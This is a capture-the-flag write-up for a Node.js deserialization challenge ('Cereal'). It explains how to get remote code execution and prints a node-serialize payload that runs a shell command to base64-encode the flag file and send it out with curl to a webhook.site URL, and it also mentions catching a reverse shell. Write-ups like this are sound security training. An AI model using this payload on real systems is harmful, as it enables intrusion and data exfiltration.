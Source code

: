 # Cereal
> This webapp is not my creation and all credit should go to [elbee](https://github.com/elbee-cyber) and their box [Jason](https://tryhackme.com/room/jason)

## Solution
This website is vulnerable to a deserialization attack, as hinted by the challenge name, webpage, and how the requests were being encoded in the webapp. After doing some research, you should encounter some blog post and/or whitepaper like [this one](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/) and learn how to get code execution. From there, there were two main ways to go about this.
1. Use a VPS, or something like [ngrok](https://ngrok.com/), or (not recommended) forward a port on your router to catch a reverse shell and cat the flag
2. Use your RCE to make GET requests to a url like [webhook.site](https://webhook.site/) so you can see the output of your commands
```js
_$$ND_FUNC$$_function (){\n \t require('child_process').exec('output=$(cat /app/flag* | base64); curl https://webhook.site/YOURSITE/`cat /app/flag* | base64`',
function(error, stdout, stderr) { console.log(stdout) });\n }()
```